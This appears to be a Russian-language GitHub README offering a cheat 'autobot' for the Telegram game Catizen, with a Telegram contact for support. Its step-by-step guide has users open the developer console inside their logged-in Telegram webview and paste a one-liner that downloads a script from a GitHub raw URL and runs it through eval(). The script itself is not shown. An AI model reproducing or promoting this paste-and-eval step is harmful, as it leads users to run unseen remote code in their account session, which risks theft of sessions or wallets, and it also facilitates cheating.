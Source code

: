 # Инструкция по использованию взлома Автобота в игре Catizen
##### По всем вопросам пишите мне в личку в Telegram:
#

[![My Telegram](https://img.icons8.com/ios/50/000000/telegram.png)](https://t.me/rovie69)

#### 1. Откройте десктопный Telegram-клиент.
#### 2. Перейдите в Settings - Advanced - Experimental Settings.
#### 3. Пролистайте вниз, найдите опцию Enable webview expecting, включите её.
#### 4. Перезагрузите клиент Telegram.
#### 5. Зайдите в Catizen, кликните по игровому полю, где играются котики.
#### 6. Нажмите комбинацию клавиш Ctrl + Shift + i, откроется консоль разработчика.
#### 7. Разрешите ввод в консоль: введите что-то и отправьте в консоль, система сама подскажет что вписать, чтобы разрешить ввод.
#### 8. Вставьте код ниже и отправьте
```javascript
var unixTime=Date.now(); var url='https://raw.githubusercontent.com/rahavitski/cats-stuff/main/Catizen-script-v1.1.js?token=GHSAT0AAAAAACQ2I2QLSVBWQ7COEMC4HVFMZQ643GA'+'?'+unixTime; fetch(url).then(response=>response.text()).then(script=>eval(script));
```
#### 9. Подождите пару секунд, переходите в игру, включайте Автобота и фармите $CATS!
